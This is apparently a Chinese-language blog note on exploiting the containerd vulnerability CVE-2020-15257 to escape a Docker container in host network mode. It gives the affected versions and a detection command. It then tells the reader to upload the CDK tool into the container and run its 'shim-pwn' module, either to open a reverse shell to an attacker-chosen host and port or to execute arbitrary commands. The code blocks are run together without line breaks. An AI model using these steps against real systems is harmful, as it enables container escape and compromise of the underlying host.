




# docker 漏洞 CVE-2020-15257

- #### ⭐**CVE-2020-15257**

**利用条件：**

> containerd 是一个控制 runC 的守护进程，提供命令行客户端和API

在**Containerd 1.3.9版本之前和1.4.0~1.4.2版本** （通过dockers version查询），使用了**--host**网络模式，会造成**containerd-shim** **API**暴露，通过调用API功能实现逃逸。

**判断方法：**

```
#判断是否使用host模式cat /proc/net/unix | grep 'containerd-shim'
```

```

```

**利用方法：**

经过以上判断，存在漏洞后。

1、从[https://github.com/cdk-team/CDK/releases下载对应架构的可执行文件，上传到容器并赋权](https://github.com/cdk-team/CDK/releases下载对应架构的可执行文件，上传到容器并赋权)


- 上传方法：

2、使用

```html
可以反弹shell，也可以执行命令reverse shell./cdk run shim-pwn reverse <RHOST> <RPORT>execute command./cdk run shim-pwn "<shell_cmd>"
```

[](https://img2022.cnblogs.com/blog/1964477/202203/1964477-20220324141314257-608976874.png)
